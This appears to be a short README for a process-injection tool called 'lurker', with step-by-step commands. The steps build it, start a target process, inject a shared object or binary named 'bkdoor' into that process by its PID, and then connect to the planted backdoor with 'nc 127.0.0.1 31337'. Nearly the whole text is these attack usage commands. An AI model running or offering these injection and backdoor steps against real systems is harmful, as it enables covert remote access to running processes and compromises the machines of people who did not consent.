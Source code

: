 1. Run `make`.

2. start the target process, such as `saruman`, by executing: `./saruman`.

3. In another terminal, execute: ./lurker \`pidof saruman\` \`pwd\`/bkdoor_so.so OR `./lurker --b \`pidof saruman\` bkdoor.o.bin` to inject the code into the target process, such as `saruman`.

4. Finally, you can run: `nc 127.0.0.1 31337`.


